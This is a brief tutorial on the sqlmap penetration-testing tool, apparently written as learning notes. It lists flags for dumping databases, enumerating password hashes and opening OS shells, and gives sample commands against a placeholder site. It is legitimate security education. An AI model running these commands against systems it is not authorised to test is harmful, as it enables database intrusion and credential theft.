 
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

### Sqlmap 

To view the sqlmap help menu, we use the following command:

```bash
sqlmap -h
```


**Basic** commands:

|**Options**|**Description**|
|---|---|
|-u URL, --url=URL|Target URL (e.g. "http://www.site.com/vuln.php?id=1")|
|--data=DATA|Data string to be sent through POST (e.g. "id=1")|
|--random-agent|Use randomly selected HTTP User-Agent header value|
|-p TESTPARAMETER|Testable parameter(s)|
|--level=LEVEL|Level of tests to perform (1-5, default 1)|
|--risk=RISK|Risk of tests to perform (1-3, default 1)|

### **Enumeration** commands:

These options can be used to enumerate the back-end database management system information, structure, and data contained in tables.

|Options|Description|
|---|---|
|-a, --all|Retrieve everything|
|-b, --banner|Retrieve DBMS banner|
|--current-user|Retrieve DBMS current user|
|--current-db|Retrieve DBMS current database|
|--passwords|Enumerate DBMS users password hashes|
|--dbs|Enumerate DBMS databases|
|--tables|Enumerate DBMS database tables|
|--columns|Enumerate DBMS database table columns|
|--schema|Enumerate DBMS schema|
|--dump|Dump DBMS database table entries|
|--dump-all|Dump all DBMS databases tables entries|
|--is-dba|Detect if the DBMS current user is DBA|
|-D DB_NAME|DBMS database to enumerate|
|-T TABLE_NAME|DBMS database table(s) to enumerate|
|-C COL|DBMS database table column(s) to enumerate|

### Operating System access commands

These options can be used to access the back-end database management system on the target operating system.

|Options|Description|
|---|---|
|--os-shell|Prompt for an interactive operating system shell|
|--os-pwn|Prompt for an OOB shell, Meterpreter or VNC|
|--os-cmd=OSCMD|Execute an operating system command|
|--priv-esc|Database process user privilege escalation|
|--os-smbrelay|One-click prompt for an OOB shell, Meterpreter or VNC|

Note that the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run `sqlmap -hh` to display the advanced help message.

**Simple HTTP GET Based Test**  
  
```bash
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```

Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database.

**Simple HTTP POST Based Test**  

First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory as req.txt for example. You could also copy the whole request and save it to a text file as well.

Then we use the following command:

```bash
sqlmap -r req.txt
```

we can also add `-p` if we want to specify a specific vulnerable parameter.


